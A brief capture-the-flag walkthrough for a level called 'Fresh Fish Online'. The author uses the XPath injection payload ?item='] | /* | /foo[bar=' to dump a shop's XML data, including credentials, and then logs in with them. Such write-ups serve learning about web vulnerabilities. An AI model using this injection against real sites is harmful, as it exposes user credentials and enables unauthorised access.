 #### Level 08 - Fresh Fish Online

Hints say something about XPath.

Found this: http://www.ibm.com/developerworks/xml/library/x-xpathinjection/index.html and this http://www.ethicalhacker.net/content/view/185/24/

Read some and tried: `?item='] | /* | /foo[bar='`

Which resulted in:

```
gorbatsjovsomerlmikhailahpnfngorbachevejzvmu: Fresh salmon of last weekThis is the freshest salmon we offer in our shop. Delivery time by mail approximately three days. 65Smelly codSmells like heaven. Can't be sent by mail because of undefined reasons, will be sent with delivery boy. Delivery time approximately two years.5
```

I think I got all the usernames and passwords. Lets try 'gorbatsjov' as username and 'somerl' as password.

There you go. All levels complete :)